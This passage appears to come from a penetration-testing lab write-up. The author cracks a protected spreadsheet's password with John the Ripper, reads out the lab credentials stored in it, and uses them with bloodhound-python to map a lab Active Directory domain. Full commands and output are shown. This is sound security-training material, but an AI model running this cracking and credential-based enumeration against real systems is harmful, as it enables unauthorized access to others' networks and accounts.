

Easy peasy:

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/OffShore]
└─# john logins.xlsx.john --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (Office, 2007/2010/2013 [SHA1 256/256 AVX2 8x / SHA512 256/256 AVX2 4x AES])
Cost 1 (MS Office version) is 2013 for all loaded hashes
Cost 2 (iteration count) is 100000 for all loaded hashes
Will run 16 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
broken           (logins.xlsx)     
1g 0:00:00:00 DONE (2024-07-01 18:59) 1.020g/s 653.0p/s 653.0c/s 653.0C/s hockey..pebbles
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

I see 2 possible passwords:

```
Network login	ned.flanders_adm	Lefthandedyeah!
Email	ned.flanders@offshore.com	Lefty1974!
```

Now I know these credentials works in the AD:



I will run bloodhound and fetch a snapshot of the AD:

```
┌──(root㉿kali-bello)-[/home/millycash/Downloads/OffShore]
└─# bloodhound-python -d "CORP.LOCAL" -u "ned.flanders_adm" -p 'Lefthandedyeah!' -ns 172.16.1.5 -c All --zip 
INFO: Found AD domain: corp.local
INFO: Getting TGT for user
WARNING: Failed to get Kerberos TGT. Falling back to NTLM authentication. Error: [Errno Connection error (dc01.corp.local:88)] [Errno -2] Name or service not known
INFO: Connecting to LDAP server: dc01.corp.local
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 7 computers
INFO: Connecting to LDAP server: dc01.corp.local
INFO: Found 225 users
INFO: Found 60 groups
INFO: Found 10 gpos
INFO: Found 24 ous
INFO: Found 19 containers
INFO: Found 1 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: WEB-WIN01.corp.local
INFO: Querying computer: WSADM.corp.local
INFO: Querying computer: MS01.corp.local
INFO: Querying computer: WS02.corp.local
INFO: Querying computer: FS01.corp.local
INFO: Querying computer: SQL01.corp.local
INFO: Querying computer: DC01.corp.local
INFO: User bill is logged in on FS01.corp.local from 172.16.1.15
INFO: Done in 00M 09S
INFO: Compressing output into 20240701192039_bloodhound.zip
```

For the AD analysis please check the DC01 page. But I feel done here I will move on to WSADM.

&nbsp;

# Extra

Apparently i missed a flag that was saved on the dashboard:



&nbsp;

&nbsp;